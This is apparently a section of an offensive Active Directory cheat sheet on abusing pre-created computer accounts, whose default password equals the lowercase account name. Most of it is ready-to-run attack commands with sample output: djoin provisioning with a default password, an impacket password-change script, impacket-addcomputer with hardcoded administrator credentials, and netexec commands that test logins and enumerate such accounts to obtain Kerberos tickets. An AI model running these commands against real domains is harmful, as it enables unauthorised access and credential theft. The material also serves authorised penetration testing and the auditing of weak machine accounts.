 # Password - Pre-Created Computer Account

When `Assign this computer account as a pre-Windows 2000 computer` checkmark is checked, the password for the computer account becomes the same as the computer account in lowercase. For instance, the computer account **SERVERDEMO$** would have the password **serverdemo**.

```ps1
# Create a machine with default password
# must be run from a domain joined device connected to the domain
djoin /PROVISION /DOMAIN <fqdn> /MACHINE evilpc /SAVEFILE C:\temp\evilpc.txt /DEFPWD /PRINTBLOB /NETBIOS evilpc
```

* When you attempt to login using the credential you should have the following error code : `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`.
* Then you need to change the password with [rpcchangepwd.py](https://github.com/SecureAuthCorp/impacket/pull/1304)

    ```ps1
    python3 rpcchangepwd.py '<DOMAIN>/COMPUTER>$':'<PASSWORD>'@<DC IP> -newpass '<PASS>'
    ```

:warning: When the machine account name and the password are the same, the machine will also act like a pre-Windows 2000 computer and the authentication will result in `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT`.

```ps1
$ impacket-addcomputer -dc-ip 10.10.10.10 EXODIA.LOCAL/Administrator:P@ssw0rd -computer-name swkserver -computer-pass swkserver
[*] Successfully added machine account swkserver$ with password swkserver.

$ nxc smb 10.10.10.10 -u 'swkserver$' -p swkserver    
SMB         10.10.10.10    445    WIN-8OJFTLMU1IG  [*] Windows 10 / Server 2019 Build 17763 x64 (name:WIN-8OJFTLMU1IG) (domain:EXODIA.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.10    445    WIN-8OJFTLMU1IG  [-] EXODIA.LOCAL\swkserver$:swkserver STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```

## Enumerate Pre-Created Computer Account

Identify pre-created computer accounts, save the results to a file, and obtain TGTs for each

```ps1
nxc -u username -p password -M pre2K
```

## References

* [DIVING INTO PRE-CREATED COMPUTER ACCOUNTS - May 10, 2022 - By Oddvar Moe](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts/)
